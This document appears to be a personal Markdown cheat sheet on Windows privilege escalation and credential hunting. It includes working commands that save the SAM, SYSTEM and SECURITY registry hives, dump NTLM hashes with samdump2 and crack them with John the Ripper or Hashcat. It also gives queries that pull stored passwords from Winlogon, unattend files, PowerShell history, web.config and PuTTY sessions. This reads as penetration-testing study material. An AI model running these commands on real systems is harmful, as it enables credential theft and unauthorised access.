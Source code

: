 

## **Check User Permissions and Group Info (Filtered View)**

```bash
whoami /all | Select-String -Pattern "username" -Context 2,0

# example
whoami /all | Select-String -Pattern "wade" -Context 2,0
```
This command helps you **find out what groups or permissions a specific user (like `jareth`) has** on a Windows system. It searches through the detailed `whoami /all` output and shows any lines related to the user, along with 2 lines above it for extra context. Useful during **privilege escalation** to check if a user has powerful roles or tokens.

# Show folders recursive 

```bash
tree /f
```

# Dumping NTLM Hashes
#### Step 1: Save the Registry Hives
📝 Make sure you have administrative or SYSTEM privileges to run these commands.

```bash
# Stores user password hashes
reg save HKLM\SAM SAM   

# Contains the boot key used to decrypt the hashes
reg save HKLM\SYSTEM SYSTEM 

# May be used for further secrets (e.g., LSA secrets
reg save HKLM\SECURITY SECURITY 
```
#### Step 2: Extract Hashes Using `samdump2`
Once you have the `SAM` and `SYSTEM` hives, extract the hashes with: 

```
samdump2 SYSTEM SAM
```
#### Step 3: Crack the Hashes
I take the LM code of  and decode it through online site _Crackstation,_ you guys can try it with offline tools like: **_JohnTheRipper_** or **_Hashcat_**.
```bash
# _JohnTheRipper_
john --format=nt hash.txt --wordlist=rockyou.txt

#_Hashcat_
`hashcat -m 1000 hash.txt rockyou.txt`
```
## Winlogon Registry Key

---

### 📌 What is it?

The `Winlogon` registry key holds important **Windows login settings** such as:

- Auto-login username and password
- What program runs when a user logs in (like `explorer.exe`)
- Potential persistence or privilege escalation points for attackers

 Command to **Find stored plaintext credentials** (DefaultUsername/Password)

```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

## **Unattended Windows Installations**

- C:\Unattend.xml
- C:\Windows\Panther\Unattend.xml
- C:\Windows\Panther\Unattend\Unattend.xml
- C:\Windows\system32\sysprep.inf
- C:\Windows\system32\sysprep\sysprep.xml

## **Powershell History**

```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

**Note:** The command above will only work from cmd.exe, as Powershell won't recognize `%userprofile%` as an environment variable. To read the file from Powershell, you'd have to replace `%userprofile%` with `$Env:userprofile`.

## **Saved Windows Credentials**

```bash
cmdkey /list
```

## **IIS Configuration**

- C:\inetpub\wwwroot\web.config
- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

Here is a quick way to find database connection strings on the file:

```
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

## **Retrieve Credentials from Software: PuTTY**

```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

**Note:** Simon Tatham is the creator of PuTTY (and his name is part of the path), not the username for which we are retrieving the password. The stored proxy username should also be visible after running the command above.

## **Scheduled Tasks**

List all scheduled tasks

```bash
schtasks 
```

 Check details about a specific task

```bash
schtasks /query /tn vulntask /fo list /v
```

Check who can modify the file

```bash
icacls c:\tasks\schtask.bat
```

## **Unpatched Software:**

```bash
wmic product get name,version,vendor
```

- **`wmic`**
    - Stands for **Windows Management Instrumentation Command-line**
    - Used to gather system info from the Windows OS via command line
- **`product`**
    - Refers to **installed software/products** on the system
- **`get`**
    - Tells WMIC to **retrieve information**
- **`name,version,vendor`**
    - Specifies the **details to display** for each installed product:
        - `name` → software name
        - `version` → version number
        - `vendor` → software developer/company name
